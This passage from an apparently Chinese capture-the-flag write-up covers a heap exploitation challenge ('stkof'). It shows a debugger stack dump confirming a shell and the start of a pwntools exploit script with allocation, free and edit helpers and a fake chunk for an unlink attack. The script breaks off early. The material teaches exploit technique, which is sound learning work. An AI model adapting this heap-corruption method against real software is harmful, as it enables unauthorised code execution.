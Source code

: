 **第8步**：发送/bin/sh

```
────────────────────────[ STACK]─────────────────────────────
00:0000│ rsp 0x7ffd79f9d110 ◂— 0x3
01:0008│     0x7ffd79f9d118 —▸ 0x7ffd79f9e2b6 ◂— 0x622f00632d006873 /* 'sh' */
02:0010│     0x7ffd79f9d120 —▸ 0x7ffd79f9e2b9 ◂— 0x2f6e69622f00632d /* '-c' */
03:0018│     0x7ffd79f9d128 —▸ 0x7ffd79f9e2bc ◂— '/bin/sh\n'
04:0020│     0x7ffd79f9d130 ◂— 0x0
05:0028│     0x7ffd79f9d138 —▸ 0x7ffd79f9e2c5 ◂— 'LC_NUMERIC=zh_CN.UTF-8'
06:0030│     0x7ffd79f9d140 —▸ 0x7ffd79f9e2dc ◂— 'GNOME_DESKTOP_SESSION_ID=this-is-deprecated'
07:0038│     0x7ffd79f9d148 —▸ 0x7ffd79f9e308 ◂— 'GJS_DEBUG_OUTPUT=stderr'
```

成功拿到shell

##### 完整exp

```python
#-*- coding:utf-8 -*-
from pwn import *
from LibcSearcher import *

context(os='linux',arch='amd64')
context.terminal = ['gnome-terminal', '-x', 'sh', '-c']

s = process("./stkof")
libc = ELF("./libc.so.6")
elf = ELF("./stkof")

#malloc分配函数，即输入1的情况
def alloc(size):
    s.sendline("1")
    s.sendline(str(size))
    s.recvuntil("OK\n")
    log.success("Have Malloc A Heap With:"+hex(size))

#free函数
def free(idx):
    s.sendline("3")
    s.sendline(str(idx))
    log.success("Have Free Heap:"+str(idx))

#对chunk内容编辑函数
def edit(idx,size,payload):
    s.sendline("2")
    s.sendline(str(idx))
    s.sendline(str(size))
    s.send(payload)
    s.recvuntil("OK\n")
    log.success("Have Edit Heap:"+str(idx))

#堆内存地址存储头部
head = 0x0602140
#下端点依附进程调试，下面两句都可
# gdb.attach(s,"break *0x400D29")
#gdb.attach(s,'b *0x0000000000400CFB')
#分配3个chunk
alloc(0x100) # idx 1
alloc(0x30) # idx 2
alloc(0x80) # idx 3
gdb.attach(s,'b *0x0000000000400CFB')

####第一步：
#伪造chunk2
fd = head+16-0x18
```